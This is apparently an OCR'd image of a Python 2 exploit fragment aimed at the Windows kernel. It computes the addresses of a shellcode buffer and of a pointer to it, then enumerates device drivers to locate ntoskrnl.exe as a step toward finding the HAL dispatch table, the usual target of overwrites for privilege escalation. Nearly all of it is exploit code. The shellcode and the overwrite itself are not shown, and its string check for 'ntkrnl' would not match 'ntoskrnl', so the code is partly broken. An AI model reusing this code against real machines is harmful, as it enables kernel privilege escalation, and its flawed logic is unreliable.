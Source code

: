 ```python

# Python, when using id to return a value, creates an offset of 20 bytes to the value (first bytes reference variable)
# After id returns the value, it is then necessary to increase the returned value 20 bytes
payload_address = id(payload) + 20
payload_updated = struct.pack("<L", ptr)
payload_final = id(payload_updated) + 20

# Location of shellcode update statement
print "[+] Location of shellcode: {0}".format(hex(payload_address))

# Location of pointer to shellcode
print "[+] Location of pointer to shellcode: {0}".format(hex(payload_final))

# The goal is to eventually locate HAL table.
# HAL is exported by ntoskrnl.exe
# ntoskrnl.exe's location can be enumerated via EnumDeviceDrivers() and GetDEviceDriverBaseNameA() functions via Windows API.

# Enumerating addresses for all drivers via EnumDeviceDrivers()
base = (c_ulong * 1024)()
get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    c_int(1024),                      # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)

# Cycle through enumerated addresses, for ntoskrnl.exe using GetDeviceDriverBaseNameA()
for base_address in base:
    if not base_address:
        continue
    current_name = c_char_p('\x00' * 1024)
    driver_name = psapi.GetDeviceDriverBaseNameA(
        base_address,                 # ImageBase (load address of current device driver)
        current_name,                 # lpFilename
        48                            # nSize (size of the buffer, in chars)
    )

    # Error handling if function fails
    if not driver_name:
        print "[+] GetDeviceDriverBaseNameA() function call failed!"
        sys.exit(-1)

    if current_name.value.lower() == 'ntkrnl' or 'ntkrnl' in current_name.value.lower():

        # When ntoskrnl.exe is found, return the value at the time of being found
        current_name = current_name.value

        # Print update to show address of ntoskrnl.exe
        print "[+] Found address of ntoskrnl.exe at: {0}".format(hex(base_address))

        # It assumed the information needed from the for loop has been found if the program has reached execution at this point.
        # Stopping the for loop to move on.
        break
    
# Now that all of the proper information to reference HAL has been enumerated, it is time to get the location of HAL and HAL 0x4
```